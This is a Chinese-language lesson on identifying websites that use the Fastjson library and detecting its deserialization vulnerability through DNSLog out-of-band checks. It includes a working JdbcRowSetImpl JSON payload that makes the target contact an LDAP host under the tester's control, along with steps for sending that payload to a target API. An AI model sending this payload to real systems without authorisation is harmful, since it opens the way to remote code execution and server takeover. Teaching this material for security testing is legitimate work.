



# Fastjson反序列化漏洞：P49：Fastjson的识别与漏洞发现 🔍

在本节课中，我们将学习如何识别一个网站是否使用了Fastjson组件，并初步检测其是否存在反序列化漏洞。这是利用此类漏洞的第一步。

## 概述

Fastjson的作用是解析和打包JSON格式的数据。因此，在网站交互中，如果出现了JSON格式的数据传输，就有可能使用了Fastjson组件。我们的目标就是找到这些特征，并进行初步的漏洞探测。

## Fastjson的识别方法

上一节我们介绍了Fastjson的基本概念，本节中我们来看看如何在实际的网站中发现它的踪迹。

识别Fastjson的关键在于分析网络请求。具体来说，需要关注HTTP请求中的两个部分：

1.  **Content-Type 请求头**：该字段指示了客户端发送给服务器内容的数据类型。
2.  **请求体（Body）的格式**：即实际传输的数据结构。



以下是识别Fastjson的具体特征：



*   **Content-Type特征**：如果请求头中的 `Content-Type` 字段值为 `application/json`，这是一个强烈的信号，表明服务器可能期望接收并处理JSON格式的数据，进而可能使用了Fastjson等JSON处理库。
*   **请求体特征**：请求体本身的数据格式为标准的JSON格式，例如 `{"key": "value", "num": 123}`。

当你在抓包分析时，同时观察到以上两个特征，就可以初步推测目标网站使用了Fastjson组件。

## 漏洞的初步检测

识别出潜在的Fastjson使用点后，下一步是进行漏洞检测。我们通常使用“DNSLog”技术进行无回显的漏洞探测。

DNSLog的原理是，让目标服务器向一个由我们控制的域名发起DNS解析请求。如果漏洞存在且我们的攻击载荷（POC）被执行，我们就能在DNSLog平台上看到这条解析记录，从而证实漏洞存在。

以下是利用DNSLog进行检测的步骤：

1.  获取一个DNSLog平台提供的子域名（例如：`xxx.dnslog.cn`）。
2.  构造一个特殊的Fastjson反序列化POC。这个POC中包含向上述子域名发起DNS查询的指令。
3.  将构造好的POC作为JSON数据，发送给之前识别出的可疑接口（即 `Content-Type` 为 `application/json` 的接口）。
4.  查询DNSLog平台，如果收到了目标服务器对指定子域名的解析请求，则证明该接口存在Fastjson反序列化漏洞。

**检测POC示例（概念性代码）**：
```json
{
  "@type": "com.sun.rowset.JdbcRowSetImpl",
  "dataSourceName": "ldap://your-subdomain.dnslog.cn/Exploit",
  "autoCommit": true
}
```
*（注：这是一个经典的利用链POC，实际利用时可能需要根据目标环境进行调整）*

## 检测过程演示

假设我们有一个目标网站 `http://target.com/api/data`，抓包发现其提交数据的请求符合上述特征。

1.  我们将请求方法改为 **POST**。
2.  将 `Content-Type` 请求头设置为 **`application/json`**。
3.  在请求体中，填入我们构造的、包含DNSLog地址的POC。
4.  发送请求后，稍等片刻，在DNSLog平台查看记录。

如果在平台中看到了来自目标服务器IP的解析记录，如下图所示，则说明漏洞检测成功。


## 总结

本节课中我们一起学习了Fastjson反序列化漏洞的识别与初步检测方法。

*   我们了解到，可以通过分析HTTP请求的 **`Content-Type: application/json`** 和 **JSON格式的请求体** 来识别潜在的Fastjson使用点。
*   我们掌握了利用 **DNSLog** 技术进行无回显漏洞检测的方法。通过发送特制的POC并观察DNSLog平台是否有解析记录，可以有效地验证漏洞是否存在。



成功检测到漏洞后，就为后续进一步的利用（例如获取服务器权限）奠定了基础。下一节课，我们将详细讲解如何利用此漏洞进行更深层次的攻击。